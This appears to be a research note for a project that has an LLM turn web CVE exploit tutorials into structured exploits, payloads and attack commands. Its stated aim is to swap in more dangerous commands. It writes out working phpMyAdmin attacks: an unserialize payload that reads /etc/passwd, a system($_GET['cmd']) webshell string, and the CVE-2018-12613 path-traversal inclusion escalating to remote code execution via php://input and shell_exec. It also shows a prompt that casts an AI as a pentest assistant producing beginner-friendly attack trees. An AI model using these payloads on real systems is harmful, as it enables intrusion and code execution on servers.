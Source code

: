 # 250716

研究的目标是要从一个网页教程中总结出三个关键信息，然后基于这三个信息做进一步的渗透利用，如修改attack_command，执行更高危的攻击操作

- input：一个/多个网页CVE漏洞的exploit教程
- output

  - exploit:  能够触发或利用漏洞的注入点
  - payloads：包含命令注入的攻击脚本，如木马程序、reverse shell
  - attack_command：真实想在目标靶机执行的操作
- example 1

  ```http
  POST /scripts/setup.php HTTP/1.1
  Host: your-ip:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 80

  action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

  ```

  ```json
  {
    "exploits": [
      "POST /scripts/setup.php?action=test",
      "POST body parameter: configuration=<serialized PMA_Config>"
    ],
    "payloads": [
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:11:\"/etc/passwd\";}",
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:XX:\"<?php system($_GET['cmd']); ?>\";}"
    ],
    "attack_commands": [
      "/etc/passwd",
      "execute system($_GET['cmd']) (RCE)"
    ]
  }

  ```
- example 2
  link: [https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md]()

  ```json
  {
    "exploits": [
      "GET /index.php?target=db_sql.php%253f/../../../../../../etc/passwd",
      "GET /index.php?target=db_sql.php?/../../../../../../tmp/sess_<session_id>"
    ],
    "payloads": [
      "select '<?php phpinfo()?>'",
      "<?php phpinfo()?> injected into session file"
    ],
    "attack_commands": [
      "read /etc/passwd",
      "execute phpinfo() via session inclusion"
    ]
  }

  ```

## prompt

- 参考论文：Structured Chain-of-Thought Prompting for Code Generation ，TOSEM 2025
- prompt

  ```
  You are a helpful pentest assistant. Please carefully read this web-based tutorial, understand how it triggers or exploits the vulnerability through injection points, and organize the tutorial content in a tree structure format. Make it simple and easy to read for beginners.

  Please note:
  - The task descriptions in the tree structure should be as concise as possible.
  - Necessary details should be written in natural language.
  - Specific attack commands should be marked using bullet points (-) in markdown format.
  - All outputs should be in Markdown format.

  Web tutorial url: {URL}
  Output Example: Pentest Task Tree
  1. Port scanning
    - nmap -sC -sV {port} {target_ip}
    - Services are FTP, SSH, and Web Service.
  2.Perform the testing
    2.1 Test FTP Service
      2.1.1 Test Anonymous Login
      2.1.1.1 Test Anonymous Upload
    2.2 Test SSH Service 
      2.2.1 Brute-force 
    2.3 Test Web Service 
      2.3.1 Directory Enumeration
          2.3.1.1 Find hidden admin
          2.3.2 Injection Identification
  ```
- output

  ```markdown
  # Pentest Task Tree – CVE-2018-12613 (phpMyAdmin LFI → RCE)

  ## 1. Prepare Environment
  ### 1.1 Download and launch vulnerable phpMyAdmin
  - `docker-compose up -d`

  ### 1.2 Access phpMyAdmin service
  - Open browser at `http://your-ip:8080`

  ## 2. Understand the Vulnerability
  ### 2.1 Version affected
  - phpMyAdmin ≤ 4.8.1 has an improper input validation on the `target` parameter in `index.php`.

  ### 2.2 Type of vulnerability
  Allows **Local File Inclusion (LFI)**, including special streams like `php://input`.

  ## 3. Confirm Local File Inclusion (LFI)
  ### 3.1 Attempt to include sensitive file
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../etc/passwd`

  ### 3.2 Expected result
  Page should display contents of `/etc/passwd`.

  ## 4. Achieve Remote Code Execution (RCE)
  ### 4.1 Use `php://input` for payload injection
  Craft a URL to include the `php://input` stream:
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../php://input`

  ### 4.2 Send POST payload with PHP code
  Send a POST request that includes PHP code to execute a system command:
  - 
    ```http
    POST /index.php?target=db_sql.php%253f/../../../../../../../../../php://input HTTP/1.1
    Host: your-ip:8080
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
  ```
